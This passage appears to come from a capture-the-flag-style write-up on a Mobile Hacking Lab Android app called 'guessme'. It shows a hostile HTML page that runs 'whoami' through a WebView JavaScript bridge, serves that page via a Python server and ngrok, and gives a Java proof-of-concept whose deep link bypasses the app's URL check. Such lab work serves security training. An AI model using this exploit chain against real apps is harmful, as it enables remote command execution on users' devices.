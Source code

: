 ```html
       window.location.href = "https://www.mobilehackinglab.com/";
    }

    // Fetch and display the time when the page loads
    var result = AndroidBridge.getTime("whoami");
    var lines = result.split('\n');
    var timeVisited = lines[0];
    var fullMessage = "Thanks for playing the game\n\n Please visit mobilehackinglab.com for more! \n\nTime of visit: " + timeVisited;
    document.getElementById('result').innerText = fullMessage;

</script>

</body>
</html>
```

Next we create a python server on the current directory with our exploit

```bash
python -m http.server
```

We use ngrok to server the file in the localhost

```bash
ngrok http http://localhost:8000
```

We then write a poc to trigger the exploit and run out command

```java
package com.example.test;

import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.widget.Button;

import androidx.activity.EdgeToEdge;
import androidx.appcompat.app.AppCompatActivity;
import androidx.core.graphics.Insets;
import androidx.core.view.ViewCompat;
import androidx.core.view.WindowInsetsCompat;

public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);
        ViewCompat.setOnApplyWindowInsetsListener(findViewById(R.id.main), (v, insets) -> {
            Insets systemBars = insets.getInsets(WindowInsetsCompat.Type.systemBars());
            v.setPadding(systemBars.left, systemBars.top, systemBars.right, systemBars.bottom);
            return insets;
        });

        Button button = findViewById(R.id.button);
        button.setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.setClassName("com.mobilehackinglab.guessme", "com.mobilehackinglab.guessme.WebviewActivity");
            // the app checks is the url ends with mobilehackinglab.com soo we incluse it
            intent.setData(Uri.parse("mhl://mobilehackinglab?url=https://c59f-41-90-188-113.ngrok-free.app/index.html?mobilehackinglab.com"));
            startActivity(intent);
        });
```